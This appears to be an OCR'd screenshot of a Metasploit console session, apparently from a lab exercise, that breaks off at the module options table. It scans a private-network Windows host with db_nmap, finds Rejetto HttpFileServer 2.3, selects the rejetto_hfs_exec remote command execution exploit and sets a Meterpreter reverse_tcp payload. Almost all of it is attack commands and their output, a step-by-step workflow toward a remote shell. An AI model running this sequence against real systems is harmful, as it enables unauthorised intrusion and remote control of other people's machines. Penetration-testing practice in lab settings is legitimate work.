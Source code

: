 ```

Metasploit tip: When in a module, use back to go 
back to the top level prompt

msf6 > db_status
[*] Connected to msf. Connection type: postgresql.
msf6 > setg rhosts 10.5.25.175
rhosts => 10.5.25.175
msf6 > db_nmap -sV -O 10.5.25.175
[*] Nmap: Starting Nmap 7.91 ( https://nmap.org ) at 2023-08-06 23:12 IST
[*] Nmap: Nmap scan report for 10.5.25.175
[*] Nmap: Host is up (0.0018s latency).
[*] Nmap: Not shown: 995 closed ports
[*] Nmap: PORT     STATE SERVICE       VERSION
[*] Nmap: 80/tcp   open  http          HttpFileServer httpd 2.3
[*] Nmap: 135/tcp  open  msrpc         Microsoft Windows RPC
[*] Nmap: 139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
[*] Nmap: 445/tcp  open  microsoft-ds?
[*] Nmap: 3389/tcp open  ms-wbt-server Microsoft Terminal Services
[*] Nmap: No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
[*] Nmap: TCP/IP fingerprint:
[*] Nmap: OS:SCAN(V=7.91%E=4%D=8/6%OT=80%CT=1%CU=39726%PV=Y%DS=3%DC=I%G=Y%TM=64CFDB86
[*] Nmap: OS:%P=x86_64-pc-linux-gnu)SEQ(SP=103%GCD=1%ISR=109%TI=I%CI=I%II=I%SS=S%TS=U
[*] Nmap: OS:)OPS(O1=M546NW8NNS%O2=M546NW8NNS%O3=M546NW8%O4=M546NW8NNS%O5=M546NW8NNS%
[*] Nmap: OS:O6=M546NNS)WIN(W1=FFFF%W2=FFFF%W3=FFFF%W4=FFFF%W5=FFFF%W6=FF70)ECN(R=Y%D
[*] Nmap: OS:F=Y%T=7F%W=FFFF%O=M546NW8NNS%CC=Y%Q=)T1(R=Y%DF=Y%T=7F%S=O%A=S+%F=AS%RD=0
[*] Nmap: OS:%Q=)T2(R=Y%DF=Y%T=7F%W=0%S=Z%A=S%F=AR%O=%RD=0%Q=)T3(R=Y%DF=Y%T=7F%W=0%S=
[*] Nmap: OS:Z%A=O%F=AR%O=%RD=0%Q=)T4(R=Y%DF=Y%T=7F%W=0%S=A%A=O%F=R%O=%RD=0%Q=)T5(R=Y
[*] Nmap: OS:%DF=Y%T=7F%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=7F%W=0%S=A%A=O%F=R
[*] Nmap: OS:%O=%RD=0%Q=)T7(R=Y%DF=Y%T=7F%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=
[*] Nmap: OS:7F%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=7F%CD=Z
[*] Nmap: OS:)
[*] Nmap: Network Distance: 3 hops
[*] Nmap: Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
[*] Nmap: OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
[*] Nmap: Nmap done: 1 IP address (1 host up) scanned in 18.97 seconds
msf6 > search type:exploit name:rejetto

Matching Modules
================

   #  Name                                   Disclosure Date  Rank       Check  Description
   -  ----                                   ---------------  ----       -----  -----------
   0  exploit/windows/http/rejetto_hfs_exec  2014-09-11       excellent  Yes    Rejetto HttpFileServer Remote Command Execution


Interact with a module by name or index. For example info 0, use 0 or use exploit/windows/http/rejetto_hfs_exec

msf6 > use 0
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/http/rejetto_hfs_exec) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/http/rejetto_hfs_exec) > options

Module options (exploit/windows/http/rejetto_hfs_exec):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   HTTPDELAY  10               no        Seconds to wait before terminating web server
```